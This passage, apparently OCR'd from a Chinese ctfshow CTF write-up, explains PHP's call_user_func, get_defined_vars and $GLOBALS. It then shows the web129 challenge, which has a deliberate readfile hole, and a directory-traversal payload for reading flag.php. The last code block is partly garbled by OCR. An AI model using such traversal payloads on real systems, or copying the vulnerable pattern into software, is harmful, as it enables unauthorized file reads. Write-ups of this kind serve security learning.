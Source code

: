 因此`call_user_func('_','ctfshow')` 返回的结果为ctfshow，接下来到第二层`call_user_func`,我们使用get_defined_vars函数

```
get_defined_vars ( void ) : array 函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。
```

因为还有个call_func_array，需要函数，我们没法使用globals数组

```
$GLOBALS引用全局作用域中可用的全部变量(一定是全局变量)
一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
例子1：
<?php
function test() {
    $foo = "local variable";

    echo '$foo in global scope: ' . $GLOBALS["foo"] . "\n";
    echo '$foo in current scope: ' . $foo . "\n";
}

$foo = "Example content";
test();
?>
$foo in global scope: Example content
$foo in current scope: local variable
如果全局变量的foo没有，函数中$GLOBALS输出不了
```

##  27.stripos()函数

###  web129

代码

```
 <?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
} 
```

```
stripos() 
查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
```

这道题就有多个姿势

目录遍历

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201020193345924.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L21pdXp6eA==,size_16,color_FFFFFF,t_70#pic_center)xxxxxxxxxx2 1./ctfshow/../../../../var/www/html/flag.php  #./表示当前目录，具体多少个../需要自己慢慢尝试2/ctfshow/../var/www/html/flag.php  # /表示表示根目录
```
